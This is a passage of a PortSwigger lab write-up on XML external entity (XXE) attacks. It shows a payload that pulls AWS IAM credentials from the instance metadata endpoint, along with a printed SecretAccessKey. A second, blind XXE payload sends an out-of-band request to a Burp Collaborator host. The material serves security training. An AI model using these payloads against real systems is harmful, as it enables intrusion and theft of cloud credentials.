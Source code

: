```bash

Response:

"Invalid product ID: 
admin
"

To

<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://169.254.169.254/latest/meta-data/iam/security-credentials/admin"> ]>
<stockCheck>&xxe;<productId>1</productId>
<storeId>1</storeId></stockCheck>

 "SecretAccessKey" : "cOyGrUT6TpETjFsF0n4wJRwiE91CxwWoSSKKQRJF"

```

![image](https://m0d1cumc0rvu5.github.io/docs/assets/images/20220516203009.png)

![image](https://m0d1cumc0rvu5.github.io/docs/assets/images/20220516203041.png)

![image](https://m0d1cumc0rvu5.github.io/docs/assets/images/20220516203125.png)

![image](https://m0d1cumc0rvu5.github.io/docs/assets/images/20220516203147.png)

![image](https://m0d1cumc0rvu5.github.io/docs/assets/images/20220516203210.png)

![image](https://m0d1cumc0rvu5.github.io/docs/assets/images/20220516203231.png)

![image](https://m0d1cumc0rvu5.github.io/docs/assets/images/20220516203257.png)

### Blind XXE with out-of-band interaction
```bash

#### This lab has a "Check stock" feature that parses XML input but does not display the result.

#### You can detect the [blind XXE](https://portswigger.net/web-security/xxe/blind) vulnerability by triggering out-of-band interactions with an external domain.

#### To solve the lab, use an external entity to make the XML parser issue a DNS lookup and HTTP request to Burp Collaborator.

Go to: "View details"
Intercept is on
Click "Check stock"
Send to repeater
Intercept is off
Go to: Burp -> Burp Collaborator client -> Copy to clipboard
Change:

<?xml version="1.0" encoding="UTF-8"?>
<stockCheck><productId>1</productId>
<storeId>1</storeId></stockCheck>

To

<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://whh0ztdas20kxd9tuyd5hjyyipofc4.oastify.com"> ]>
<stockCheck>&xxe;<productId>1</productId>
<storeId>1</storeId></stockCheck>
```